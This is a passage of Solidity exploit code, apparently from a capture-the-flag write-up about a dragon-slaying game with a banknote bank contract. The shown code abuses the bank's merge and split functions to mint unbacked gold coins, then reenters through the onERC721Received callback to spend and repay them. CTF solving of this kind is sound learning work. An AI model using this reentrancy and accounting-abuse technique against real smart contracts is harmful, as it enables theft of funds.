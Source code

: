 ```solidity
        setup.claim();
    }

    function exploit() public {
        // Get an empty banknote (id 1)
        uint[] memory bankNoteIDsFrom = new uint[](0);
        bank.merge(bankNoteIDsFrom);

        // Abuse bank.split() to "borrow" 2,000,000 ether
        uint[] memory amounts = new uint[](2);
        amounts[0] = goldCoinAmount;
        bank.split(1, amounts);
    }

    function onERC721Received(address, address, uint256, bytes calldata) public returns (bytes4) {
        // Only perform the exploit on the third onERC721Received call
        if (hitCount == 2) {
            // Withdraw all gold coins from banknote (id 2)
            bank.withdraw(2);

            // Transfer all coins to Knight
            goldCoin.transfer(address(knight), goldCoinAmount);
            
            // Buy items 3 and 4
            knight.buyItem(3);
            knight.buyItem(4);

            // Fight Dragon until its health is 0
            while (dragon.health() > 0) {
                knight.fightDragon();
            }

            // Sell items 3 and 4
            knight.sellItem(3);
            knight.sellItem(4);

            // Deposit gold coins into a new banknote (id 4)
            knight.bankDeposit(goldCoinAmount);

            // Transfer all gold coins back to this contract's banknote (id 1)
            knight.bankTransferPartial(4, goldCoinAmount, 1);
        }
        
        // Increment the counter by 1
        hitCount += 1;

        return this.onERC721Received.selector;
    }

}
```
